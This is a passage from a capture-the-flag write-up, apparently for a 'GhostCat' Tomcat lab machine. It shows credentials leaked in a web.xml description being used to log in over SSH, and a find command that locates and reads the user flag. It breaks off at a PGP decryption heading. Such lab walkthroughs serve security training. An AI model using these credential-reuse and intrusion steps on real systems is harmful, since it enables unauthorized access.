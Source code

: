 ```console

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:[REDACTED]
  </description>

</web-app>
```

## **<strong><font color="Brown">Initial Access</font></strong>**
***
* Since SSH is open, we can use this credentials to login as ```skyfuck``` :

```console
root@kali# ssh skyfuck@<MACHINE_IP>
The authenticity of host '<MACHINE_IP> (<MACHINE_IP>)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '<MACHINE_IP>' (ED25519) to the list of known hosts.
skyfuck@<MACHINE_IP>'s password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ 
```

* Since our first task is to find ```user.txt``` file, let's search for it using ```find``` command and ```cat``` it out :
```console
skyfuck@ubuntu:~$ find / -type f -name user.txt 2>/dev/null
/home/merlin/user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{REDACTED}
```
<br/>

## **<strong><font color="Brown">Horizontal Privilege Escalation</font></strong>**
***
### **<strong><font color="DarkCyan">PGP Decryption</font></strong>**
